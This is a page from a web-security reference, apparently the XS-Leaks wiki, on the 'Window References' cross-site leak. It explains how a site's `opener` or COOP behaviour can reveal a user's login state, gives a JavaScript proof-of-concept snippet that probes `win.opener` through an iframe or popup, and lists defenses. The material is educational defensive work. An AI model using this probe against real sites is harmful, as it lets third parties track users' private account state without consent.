 +++
title = "Window References"
description = ""
date = "2020-10-08"
category = [
    "Attack",
]
abuse = [
    "Window References",
]
defenses = [
    "Fetch Metadata",
    "SameSite Cookies",
    "COOP"
]
menu = "main"
weight = 2
+++


If a page sets its `opener` property to `null` or is using [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) protection depending on the users' state, it becomes possible to infer cross-site information about that state. For example, attackers can detect whether a user is logged in by opening an endpoint in an iframe (or a new window) which only authenticated users have access to, simply by checking its window reference. [^demo-coop]

## Code Snippet
The below snippet demonstrates how to detect whether the `opener` property was set to `null`, or whether the [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) header is present with a value other than `unsafe-none`. This can be done with both iframes and new windows.

```javascript
// define the vulnerable URL
const v_url = 'https://example.org/profile';

const exploit = (url, new_window) => {
  let win;
  if(new_window){
    // open the url in a new tab to see if win.opener was affected by COOP
    // or set to null
    win = open(url);
  }else{
    // create an iframe to detect whether the opener is defined
    // won't work for COOP detection, or if a page has implemented framing protections
    document.body.insertAdjacentHTML('beforeend', '<iframe name="xsleaks">'); 
    // redirect the iframe to the vulnerable URL
    win = open(url, "xsleaks");
  }
  
  // wait 2 seconds to let the page load
  setTimeout(() => {
    // check the opener property of the newly opened window
    if(!win.opener) console.log("win.opener is null");
    else console.log("win.opener is defined");
  }, 2000);
}
exploit(v_url);
exploit(v_url, 1);

```

## Defense

To mitigate this type of XS-Leak, be consistent across different pages: set the `opener` property to the same value on all pages using COOP. Using JavaScript to set `opener` to `null` can result in edge cases because it's possible to disable JavaScript entirely using iframe's sandbox attribute.

## References

[^demo-coop]: Detect Cross-Origin-Opener-Policy header with popup., [link](https://xsinator.com/testing.html#COOP%20Leak)

